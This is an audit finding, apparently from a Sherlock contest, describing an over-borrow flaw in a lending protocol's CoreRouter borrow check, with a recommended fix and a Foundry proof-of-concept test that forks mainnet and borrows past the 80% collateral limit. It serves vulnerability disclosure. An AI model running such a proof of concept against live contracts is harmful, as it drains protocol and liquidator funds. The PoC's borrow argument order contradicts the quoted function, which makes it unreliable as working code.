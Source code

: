 **A user can borrow amount beyond collateral limit in Lend-Protocol**

_Bug Severity: High_

_Target:_
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2%2Fsrc%2FLayerZero%2FCoreRouter.sol#L145
 

**Summary:**

The borrow function is used to borrow debt from the protocol, and the function does not check borrowed and collateral properly, the require checks preBorrowAmount ( currentBorrowBalance ) instead of postBorrowAmount ( currentBorrowBalance + _amount ) this will allow borrowers to borrow debt more than their collateral


```solidity
// CoreRouter.sol
    function borrow(uint256 _amount, address _token) external {
    
     // ... existing code...

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;


@audit-bug--> require(collateral >= borrowAmount, "Insufficient collateral"); // ⚠️ This require will allow over borrowing because it checks preBorrowAmount instead of postBorrowAmount.

       // ... existing code...

        // Emit BorrowSuccess event
        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
```



**Vulnerability Details:**

A. A User deposited $1000 for example, and the collateral factor (LTV) is 0.8e18 (80%), that means the User has a chance to borrow $800

B. The User borrowed $500, the remaining borrowable balance = $300

C. The User tried to borrow $400 even though his available amount is $300

D. The function checks if the borrowAmount which $500 is equal or less than collateral.

E. The borrow function has indeed identified that the collateral > $500

F. The borrower has received $400, while his currentBorrowBalance is $500. that means the borrower has borrowed $900 instead of $800,that extra $100 will fall the user's debt underCollateralized.



**Impact:**

- Loss of protocol and Liquidators funds because the user's collateral can not pay the debt

- The protocol has to take responsibilities of these losses

- While the Liquidators will not receive their incentives.



**Recommendation:**

Change borrowAmount in require

```solidity

// from this
require(collateral >= borrowAmount, "Insufficient collateral");

// to this
+require(collateral >= borrowed, "Insufficient collateral");

// borrowAmount = currentBorrowBalance e.g $500
// borrowed = currentBorrowBalance + _amount e.g $500 + $400 = $900.
```

**Proof of concept (PoC):**

The below PoC shows how a user deposited 1000 USDC and borrow 500 USDC first, then re-borrow 400 USDC even though the collateral factor (LTV) is 80% which is 800 USDC.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {IERC20} from "../src/interfaces/IERC20.sol";



interface ICoreRouter {
    function supply(uint256 amount, address token) external;
    function borrow(address token, uint amount) external;
    function redeem(address token, uint amount) external;
}


contract LendOverBorrow is Test {

    address public USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public CoreRouter = 0x55b330049d46380BF08890EC21b88406eBFd20B0;
    address public User = 0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341;


function setUp() public {

    vm.createSelectFork(vm.envString("ETH_RPC_URL"), 19000000);

       deal(USDC, User, 10_000e6);

       uint bal = IERC20(USDC).balanceOf(User);
       console2.log("USDC Balance:", bal);

     
          vm.startPrank(User);
     IERC20(USDC).approve(CoreRouter, 1_000e6);


     console2.log("USDC Balance before deposit:", IERC20(USDC).balanceOf(User));

     console2.log("Allowance:", IERC20(USDC).allowance(User, CoreRouter));

     ICoreRouter(CoreRouter).supply(1_000e6, USDC);
     vm.stopPrank();
}

function test_over_borrow() public {
    vm.startPrank(User);

     ICoreRouter(CoreRouter).borrow(USDC, 500e6); 

     ICoreRouter(CoreRouter).borrow(USDC, 400e6); // Misali overly borrow

    vm.stopPrank();
}
}
```

